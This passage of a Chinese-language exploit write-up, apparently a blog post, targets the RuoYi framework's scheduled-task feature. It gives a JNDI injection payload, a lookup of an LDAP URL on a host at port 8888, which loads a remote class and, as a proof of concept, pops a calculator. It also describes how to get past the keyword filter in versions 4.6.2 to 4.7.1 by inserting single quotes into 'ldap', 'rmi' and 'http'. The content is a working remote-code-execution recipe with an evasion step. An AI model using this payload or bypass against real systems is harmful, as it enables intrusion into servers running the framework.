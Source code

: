   
  
添加一个定时任务通过  

```
lookup
```

  
函数加载远程类  
  
目标字符串：  
****  

```
javax.naming.InitialContext.lookup(‘ldap://192.168.10.129:8888/#Calc’)
```

  
cron表达式：  
**0/10 **** ?**  
  
点击执行，弹出计算器，测试成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGz7070YlWaePEBXHWRrpMib066KWAIwn3Dmv6bqEwaxSWfQF9sFv8D5g/640?wx_fmt=png&from=appmsg "")  
### 高版本绕过策略（V-4.6.2-V-4.7.1）  
  
在V-4.6.2-V-4.7.1版本中RuoYi添加了对  

```
ldap
```

  
和  

```
rmi
```

  
以及  

```
http
```

  
字符串的过滤  

```
ruoyi-quartz\src\main\java\com\ruoyi\quartz\controller\SysJobController.java
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGlFRXU6P0Zib2Lvd21E46nWZMjaDRmTjsIkUKpA6aEgaeDZDXd3LFd4A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGagcsShtibiazHCAxOE6QAiblYro5P8zNup65Qgmzia0zPZqHeEOUOU7yIw/640?wx_fmt=png&from=appmsg "")  
  
但是可通过添加”‘“的方式来绕过。  
  
例如http就可以改为ht’tp，rmi可以改为r’mi，ldap改为l’dap，以此来绕过字符串检测  
  